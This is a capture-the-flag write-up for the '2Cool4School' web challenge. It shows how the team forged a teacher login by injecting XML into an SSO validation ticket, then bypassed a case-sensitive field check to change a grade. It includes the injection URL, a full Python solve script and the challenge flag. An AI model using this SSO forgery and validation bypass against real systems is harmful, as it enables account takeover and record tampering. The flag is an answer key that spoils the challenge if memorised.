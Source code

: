 # 2Cool4School

## Challenge

> I just started at uni, but can't be bothered to show up. For some reason my Cyber Sec grade is F. Please help me get an A!

> Clarification: You have to change your own grade. Changing the grade gives you the flag when viewing your grades

## Walkthrough

We had a number of people working on this challenge. I didn't find this all on my own! Thanks Angus, Ming, and Vie.

---


We were given a single URL and as such I knew it would be sourceless web 🥲.

Visiting it brought us to a react web application that was meant for students to view their grade and teachers to add comments. Following the login button on the top brought us to an SSO login page.

![sso_login.png](./imgs/sso_login.png)

Looking at the SSO source we noticed that there was a comment noting that the system was using swagger:

```html
<!-- TODO: Update swagger to latest script version-->
```

As such Angus checked out `/swagger.json` and sure enough, it returned the API docs. Notably, it included information about `/register` and `/validate`.

Using our newfound knowledge of the API, we registered and acquiring a student account which allowed us to log into the web application.

![grades.png](./imgs/grades.png)

In the meantime, I had unminified and analyzed the JS and found the following endpoints:

```js
fetch("/flag");

fetch("/logout", { method: "POST" });

fetch("/whine", { method: "post" });

fetch("/api/profile");
fetch("/api/profile" + (t ? "/" + t : ""));

fetch("/api/profile/isNew");
fetch("/api/profile/role");

fetch("/api/profile", { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: t }) });
fetch("/api/profile", { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ picture: n }) });

fetch("/api/profile/new", { method: "post", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: t, picture: r }) });

fetch("/api/grades" + (t ? "/" + t : ""));
fetch("/api/grades/" + t, { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: n, values: { notes: r } }) });
```

Looking at these endpoints we figured that the goal would be to `PUT` to `/api/grades` and update the cybersecurity course to an `A`. However, we'd have to be a teacher to be able to access that endpoint.

We spent a lot of time wrestling with the application before Angus found a XML injection vulnerability in the SSO.

In essence, upon successfully authenticating with the SSO you are generated a unique token that is stored in a database.
You are then redirected to `http://grade.chal-kalmarc.tf/login?ticket=<TOKEN>`, which takes your token and fetches `http://sso.chal-kalmarc.tf/validate?ticket=<TOKEN>`. The SSO checks if that ticket is a successful login ticket and returns the user information associated with it. The grade service then sets your cookie for that user.

* `://sso/login` success
* `sso` sets token in database
* redirects to `://grade/login?token=<token>`
* `grade` fetches `://sso/validate` and sets cookie if successful.

Successful response from `/validate`:

```xml
<response>
    <authenticationSuccess><id>(user uuid)</id><username>student(int)</username></authenticationSuccess>
</response>
```

Failure response from `/validate`:

```xml
<response>
    <authenticationFailure>Failed for (token)</authenticationFailure>
</response>
```

Due to the fact that fetching `http://sso.chal-kalmarc.tf/validate?ticket=token` would reflect the token back into the response, setting a token as the auth success XML would trick the grade service into signing you in for a user.

For example, fetching `http://grade.chal-kalmarc.tf/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id><username>teacher13095</username></authenticationSuccess></response>&service=test` would log you in as a teacher since the grade service would receive the following from the `/validate` endpoint:

```xml
<response>
    <authenticationFailure>Failed for TGT-</authenticationFailure>
        <authenticationSuccess>
            <id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id>
            <username>teacher13095</username>
        </authenticationSuccess>
        </response>
</response>
```

Now that we were logged in as a teacher, we just had to figure out how to use the `/api/grades` endpoint to set the grade. I reversed the javascript and found the parameters required. 

```js
function Il(e, t, n) {
    return Dl.apply(this, arguments);
}
function Dl() {
    return (Dl = l(
        a().mark(function e(t, n, r) {
            return a().wrap(function (e) {
                for (;;)
                    switch ((e.prev = e.next)) {
                        case 0:
                            return (e.next = 2), fetch("/api/grades/" + t, { method: "PUT", headers: { "Content-Type": "application/json" }, body: JSON.stringify({ name: n, values: { notes: r } }) });
                        case 2:
                        case "end":
                            return e.stop();
                    }
            }, e);
        })
    )).apply(this, arguments);
}
// ...
{
    return (e.next = 2), Il(r.props.params.id, r.state.editModal.name, r.state.editModal.comment); // .id = student uuid
}
```

```py
r = teacher.put(f'http://grade.chal-kalmarc.tf/api/grades/{studentID}', json={
    'name': 'Fundamentals of Cyber Security',
    'values': {
        'notes': 'gg',
        'grade': 'A' # try set grade
    },
})
```

Unfortunately, this didn't work as the service returned `grade is not allowed`. I began to play with the SQL and analyze it's errors.

```json
{"name":"SqlError","text":"Unknown column '__proto__' in 'field list'","sql":"UPDATE grades SET `notes` = ?, `__proto__` = ? WHERE student = ? and course = (select id from courses where name = ?) - parameters:['hi',{\"grade\":\"A\"},'4154b3ea-bb23-11ed-b345-0242c0a88002','Algebra']","fatal":false,"errno":1054,"sqlState":"42S22","code":"ER_BAD_FIELD_ERROR"}
```

However, Angus cheese it by using `Grade` instead of `grade`, guess the validation was case sensitive lol.

## Solve

```py
import httpx
import base64
import json

student = httpx.Client()
teacher = httpx.Client()

r = student.post(f'http://sso.chal-kalmarc.tf/register', json={
    'username': 'doesnt matter',
    'password': 'doesnt matter',
})
user = r.json()['username']
passwd = r.json()['password']
print(f'[{r.status_code}]', user, passwd)

r = student.post('http://sso.chal-kalmarc.tf/login?service=http://grade.chal-kalmarc.tf/login', data={
    'username': user,
    'password': passwd,
})
print(f'[{r.status_code}]: {r.url} {r.text}')

r = student.get(r.headers['Location'])
print(f'[{r.status_code}]: {r.url} {r.text}')

r = student.get('http://grade.chal-kalmarc.tf/api/profile/isnew')
print(f'[{r.status_code}]: {r.text}')

if r.json() == True:
    r = student.post(f'http://grade.chal-kalmarc.tf/api/profile/new', json={
        'name': 'test',
        'picture': 'test'
    })
    print(f'[{r.status_code}]: {r.text}')

r = teacher.get('http://grade.chal-kalmarc.tf/login?ticket=TGT-</authenticationFailure><authenticationSuccess><id>dcfb2fd7-312e-48cf-81c0-ae7eb31ef864</id><username>teacher13095</username></authenticationSuccess></response>&service=test')
print(f'[{r.status_code}]: {r.text}')

studentID = json.loads(base64.b64decode(student.cookies.get('grade-session')))['user']['id']
print(studentID)

r = teacher.put(f'http://grade.chal-kalmarc.tf/api/grades/{studentID}', json={
    'name': 'Fundamentals of Cyber Security',
    'values': {
        'notes': 'gg',
        'Grade': 'A'
    },
})
print(f'[{r.status_code}]: {r.text}')

r = student.post('http://grade.chal-kalmarc.tf/whine')
print(f'whine [{r.status_code}]: {r.text}')

r = student.get('http://grade.chal-kalmarc.tf/flag')
print(f'[{r.status_code}]: {r.text}')

# kalmar{w00000w_n0_m0re_sch00l_d9a821a}
```

![win.png](imgs/win.png)
